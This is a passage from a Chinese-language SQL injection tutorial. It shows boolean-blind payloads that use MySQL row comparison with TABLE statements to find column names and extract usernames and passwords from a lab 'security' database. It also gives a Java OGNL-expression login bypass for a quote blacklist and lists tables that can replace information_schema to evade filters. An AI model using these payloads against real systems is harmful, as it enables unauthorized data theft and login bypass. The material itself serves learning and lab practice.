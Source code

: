 ### 爆字段名

information_schema.columns表有22列
得到所有表名后开始判断字段名，找到columns表，具体方法和上面一样

```python
1' and ('def','security','users','id','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<=(table information_schema.columns limit 3386,1)--+ #users表第一个字段为id

1' and ('def','security','users','password','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<=(table information_schema.columns limit 3387,1)--+ #users表，第二个字段为password

1' and ('def','security','users','username','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<=(table information_schema.columns limit 3388,1)--+ #users表，第三个字段为username
```

### 爆数据

```python
1' and (1,'D','')<=(table users limit 1)--+ #正常
1' and (1,'E','')<=(table users limit 1)--+ #错误

#table users limit 1也就是table users limit 0,1
#1' and (1,'D','')<=(table users limit 0,1)--+ #正常
#1' and (1,'E','')<=(table users limit 0,1)--+ #错误
......
1' and (1,'Dumb','Dumb')<=(table users limit 1)--+ #正常
1' and (1,'Dumb','Dumc')<=(table users limit 1)--+ #错误
```

## 

## java下的sql注入

参考https://forum.butian.net/share/1749

黑名单禁用了单双引号，现在需要万能密码登录就直接用ngnl表达式绕过

```
password=1${@java.lang.Character@toString(39)}or(1))#
```

# 普通的函数替代

### information_schema绕过

能够代替information_schema的有：

- sys.schema_auto_increment_columns 只显示有自增的表
- sys.schema_table_statistics_with_buffer
- sys.x$ps_schema_table_statistics_io
- sys.x$schema_table_statistics_with_buffer
- mysql.innodb_table_stats
- mysql.innodb_table_index
- mysql.innodb_index_stats
- sys.statement_analysis
